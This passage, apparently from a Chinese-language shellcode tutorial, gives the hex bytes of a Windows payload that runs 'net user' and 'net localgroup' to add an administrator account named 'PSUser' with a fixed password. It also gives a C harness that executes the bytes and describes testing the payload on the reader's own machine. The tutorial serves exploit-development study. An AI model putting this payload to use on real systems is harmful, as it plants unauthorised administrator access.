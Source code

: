      };
     unsigned int adduser_bin_len = 115; 

这里创建了一个可以在c程序中使用的字符数组。输出中的每个十六进制数字（0xXX）代表了shellcode中的一个字节。 

我们将会使用“xxd-shellcode.sh”脚本提取出我们可以直接在“shellcodetest.c”中用的原始shellcode，就像我们在之前的教程中做的，下面是命令： 

    # ./xxd-shellcode.sh adduser.bin
     \xeb\x16\x5b\x31\xc0\x50\x53\xbb\xb5\x15\x86\x7c\xff\xd3\x31\xc0\x50\xbb\x82\xca\x81\x7c\xff\xd3\xe8\xe5\xff\xff\xff\x63\x6d\x64\x2e\x65\x78\x65\x20\x2f\x63\x20\x6e\x65\x74\x20\x75\x73\x65\x72\x20\x50\x53\x55\x73\x65\x72\x20\x50\x53\x50\x61\x73\x73\x77\x64\x20\x2f\x41\x44\x44\x20\x26\x26\x20\x6e\x65\x74\x20\x6c\x6f\x63\x61\x6c\x67\x72\x6f\x75\x70\x20\x41\x64\x6d\x69\x6e\x69\x73\x74\x72\x61\x74\x6f\x72\x73\x20\x2f\x41\x44\x44\x20\x50\x53\x55\x73\x65\x72\x00 

## 测试shellcode  ##

我们将使用“shellcodetest.c”程序来测试我们的shellcode。这一步的目的是把shellcode插入到一个C程序，接下来我们会编译执行它。这个程序被设计用来执行shellcode。 

在我们做这之前你需要把上一步生成的shellcode插入到程序中。把它放在“code[]”数组的引号中间。它需要像下面这样结束： 

    +----------------- Start updated shellcodetest.c -----------------+ 
    
    /*shellcodetest.c*/
     char code[] = "\xeb\x16\x5b\x31\xc0\x50\x53\xbb\xb5\x15\x86\x7c\xff\xd3\x31\xc0\x50\xbb\x82\xca\x81\x7c\xff\xd3\xe8\xe5\xff\xff\xff\x63\x6d\x64\x2e\x65\x78\x65\x20\x2f\x63\x20\x6e\x65\x74\x20\x75\x73\x65\x72\x20\x50\x53\x55\x73\x65\x72\x20\x50\x53\x50\x61\x73\x73\x77\x64\x20\x2f\x41\x44\x44\x20\x26\x26\x20\x6e\x65\x74\x20\x6c\x6f\x63\x61\x6c\x67\x72\x6f\x75\x70\x20\x41\x64\x6d\x69\x6e\x69\x73\x74\x72\x61\x74\x6f\x72\x73\x20\x2f\x41\x44\x44\x20\x50\x53\x55\x73\x65\x72\x00";
     int main(int argc, char **argv)
     {
     int (*func)();
     func = (int (*)()) code;
     (int)(*func)();
     } 
    
    +----------------- End updated shellcodetest.c -----------------+ 
现在需要编译更新后的“shellcodetest.c”文件使它执行我们的shellcode。用下面的命令： 

    # gcc -o shellcodetest shellcodetest.c 

创建了可执行文件“shellcodetest.exe”。 

在开始运行这个程序前，我们通过运行下面的命令看一下你系统上的帐户： 

    # net user
    (列出你系统上的帐户) 

现在你要通过测试程序执行你的shellcode。这个shellcode可以在你系统上添加一个用户名为“PSUser”的管理员用户，接着他会安静的退出。 

    # ./shellcodetest.exe
     The command completed successfully.
     (adds a user account)
     The command completed successfully.
     (adds the user account to the administrators group)
     (then exists cleanly) 
